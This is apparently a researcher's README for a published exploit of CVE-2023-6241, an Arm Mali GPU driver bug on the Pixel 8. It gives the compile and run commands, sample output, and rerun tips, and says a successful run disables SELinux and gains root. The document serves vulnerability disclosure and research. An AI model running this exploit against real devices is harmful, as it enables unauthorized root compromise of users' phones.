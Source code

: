 ## Exploit for CVE-2023-6241

The write up can be found [here](https://github.blog/2024-03-18-gaining-kernel-code-execution-on-an-mte-enabled-pixel-8). This is a bug in the Arm Mali kernel driver that I reported in November 2023. The bug can be used to gain arbitrary kernel code execution from the untrusted app domain, which is then used to disable SELinux and gain root.

The exploit is tested on the Google Pixel 8 with the Novmember 2023 patch (`UD1A.231105.004`). It needs to be compiled with OpenCL and linked with the OpenCL library `libGLES_mali.so`. The library can be found in a Pixel 8 device in `vendor/lib64/egl/libGLES_mali.so` and the OpenCL header files can be found in the KhronosGroup's [OpenCL-headers repository](https://github.com/KhronosGroup/OpenCL-Headers). The specific header that I used was the [v2023.04.17](https://github.com/KhronosGroup/OpenCL-Headers/releases/tag/v2023.04.17) version, although other versions should also work. For reference, I used the following command to compile with clang in ndk-26:

```
android-ndk-r26b/toolchains/llvm/prebuilt/linux-x86_64/bin/aarch64-linux-android34-clang -DSHELL -DCL_TARGET_OPENCL_VERSION=300 -I. -L. mali_jit_csf.c mem_read_write.c mempool_utils.c -lGLES_mali -o mali_jit_csf
```

The exploit needs to be linked to `libGLES_mali.so`. This can be done by setting the `LD_LIBRARY_PATH` to `/vendor/lib64/egl`. The exploit rarely fails and even if it does, it does not normally corrupt or crash the system. So in case it fails, it can be rerun. If successful, it should disable SELinux and gain root.

```
shiba:/data/local/tmp $ LD_LIBRARY_PATH=/vendor/lib64/egl ./mali_jit_csf                                     
mali_fd 3
corrupted_jit_addr 6000001000
kernel success
kernel success
queue kernel
jit_grow addr 6000001000
Size after grow: 22f6
Final grow size: 23c7
keep alive jit_addr 60023d1000
Size after free: 21fd, trim_level 6
writing to gpu_va 6002301000
found reused page 5fffef6000, 0
pgd entry found at index 0 40000899bbc443
overwrite addr : 5ffff00b50 b50
overwrite addr : 5fffb00b50 b50
overwrite addr : 5fff900b50 b50
overwrite addr : 5ffff00714 714
overwrite addr : 5fffb00714 714
overwrite addr : 5fff900714 714
result 50
clean up
```

When running the first time, the exploit sometimes stalls after printing the last `overwrite addr` message. If that happens (stalled for more than 10 seconds, though pausing for a few seconds is normal), then simply kill the exploit and rerun it. It should not stall the second time.

To test it with MTE enabled, follow [these instructions](https://outflux.net/blog/archives/2023/10/26/enable-mte-on-pixel-8/) to enable kernel MTE.
